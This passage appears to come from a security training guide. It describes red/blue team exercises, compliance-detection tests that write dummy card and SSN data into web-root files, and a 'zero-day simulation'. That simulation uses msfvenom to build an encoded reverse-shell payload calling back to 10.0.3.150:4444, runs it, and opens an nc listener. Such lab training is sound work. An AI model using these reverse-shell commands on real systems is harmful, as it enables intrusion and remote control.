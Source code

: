 
## Advanced Training Scenarios

### Scenario A: Red Team vs Blue Team Exercise

**Duration**: 2-4 hours
**Objective**: Full-scale attack simulation with real-time response

1. **Red Team**: Execute multi-stage attack
2. **Blue Team**: Monitor, detect, and respond
3. **Debrief**: Analyze detection gaps and response effectiveness

### Scenario B: Compliance Testing

**Objective**: Test compliance monitoring capabilities

```bash
# PCI DSS testing
# Test credit card data detection
echo "4111-1111-1111-1111" > /var/www/html/test.txt

# GDPR testing  
# Test personal data detection
echo "John Doe, john@example.com, +1-555-123-4567" > /var/www/html/personal.txt

# SOX testing
# Test financial data access
cat > /var/www/html/financial.csv << 'EOF'
Account,Balance,SSN
123456,10000,123-45-6789
789012,25000,987-65-4321
EOF
```

### Scenario C: Zero-Day Simulation

**Objective**: Test unknown threat detection

```bash
# Custom payload creation
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.3.150 LPORT=4444 \
  -e x86/shikata_ga_nai -i 3 -f elf > /tmp/zero_day

# Behavioral analysis testing
./zero_day &

# Custom C2 channel
nc -nlvp 4444 &
```

---

## Reporting and Documentation
